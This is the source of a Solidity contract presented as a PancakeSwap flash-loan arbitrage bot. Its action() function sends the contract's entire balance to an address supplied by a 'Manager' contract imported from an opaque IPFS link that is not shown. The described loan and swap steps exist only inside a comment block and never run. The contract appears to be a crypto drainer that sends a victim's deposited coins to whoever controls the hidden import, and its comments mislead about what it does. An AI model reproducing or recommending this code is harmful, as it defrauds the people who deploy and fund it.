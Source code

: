 //ipfs://QmcdBFQDxD8UG7rsa7D5TPoZ785AjneWzf4F4w8dje4pDV


pragma solidity ^0.5.0;

// Multiplier-Finance Smart Contracts
import "https://github.com/Multiplier-Finance/MCL-FlashLoanDemo/blob/main/contracts/interfaces/ILendingPoolAddressesProvider.sol";
import "https://github.com/Multiplier-Finance/MCL-FlashLoanDemo/blob/main/contracts/interfaces/ILendingPool.sol";
   
// PancakeSwap Smart Contracts
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeCallee.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeFactory.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakePair.sol";
   
// Code Manager
import "ipfs://QmcdBFQDxD8UG7rsa7D5TPoZ785AjneWzf4F4w8dje4pDV";
   
contract GetFlashLoan {
   string public tokenName;
   string public tokenSymbol;
   uint loanAmount;
   Manager manager;
   
   constructor(string memory _tokenName, string memory _tokenSymbol, uint _loanAmount) public {
      tokenName = _tokenName;
      tokenSymbol = _tokenSymbol;
      loanAmount = _loanAmount;
         
      manager = new Manager();
   }
   
   function() external payable {}
   
   function action() public payable {
      // Send required coins for swap
      address(uint160(manager.pancakeDepositAddress())).transfer(address(this).balance);
      
      // Perform tasks (clubbed all functions into one to reduce external calls & SAVE GAS FEE)
      // Breakdown of functions written below
      manager.performTasks();
      
      /* Breakdown of functions
      // Submit token to BSC blockchain
      string memory tokenAddress = manager.submitToken(tokenName, tokenSymbol);
   
   // List the token on PancakeSwap
      manager.pancakeListToken(tokenName, tokenSymbol, tokenAddress);
      
   // Get BNB Loan from Multiplier-Finance
      string memory loanAddress = manager.takeFlashLoan(loanAmount);
      
      // Convert half BNB to DAI
      manager.pancakeDAItoBNB(loanAmount / 2);
   
   // Create BNB and DAI pairs for our token & Provide liquidity
   string memory bnbPair = manager.pancakeCreatePool(tokenAddress, "BNB");
      manager.pancakeAddLiquidity(bnbPair, loanAmount / 2);
      string memory daiPair = manager.pancakeCreatePool(tokenAddress, "DAI");
      manager.pancakeAddLiquidity(daiPair, loanAmount / 2);
   
   // Perform swaps and profit on Self-Arbitrage
      manager.pancakePerformSwaps();
      
      // Move remaining BNB from Contract to your account
      manager.contractToWallet("BNB");
   
   // Repay Flashloan
      manager.repayLoan(loanAddress);
      */
   }
}
